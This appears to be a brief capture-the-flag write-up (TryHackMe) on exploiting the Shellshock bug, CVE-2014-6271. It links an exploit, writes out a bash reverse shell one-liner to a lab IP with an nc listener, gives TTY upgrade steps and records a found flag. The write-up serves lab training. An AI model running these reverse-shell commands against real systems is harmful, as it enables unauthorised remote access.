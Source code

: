 ## Shellshock Vulnerability(CVE-2014-6271)

Explains how this works: https://securityintelligence.com/articles/shellshock-vulnerability-in-depth/

Exploit used: https://www.exploit-db.com/exploits/34900

* We get a connection back from the server after running this exploit
* Shell upgrade - doesn't work
* Let's try nc instead
	* `bash -i >& /dev/tcp/10.10.160.71/4444 0>&1` on victim machine
	* `nc -nlvp 4444` on host
* Shell upgrade works now ;)
	* python -c 'import pty;pty.spawn("/bin/bash")'
	* ctrl+z
	* stty raw -echo; fg
	* reset
	* Choose xterm as terminal type

user.txt found in /home/ryan: `THM{Sh3llSh0ck_r0ckz}`
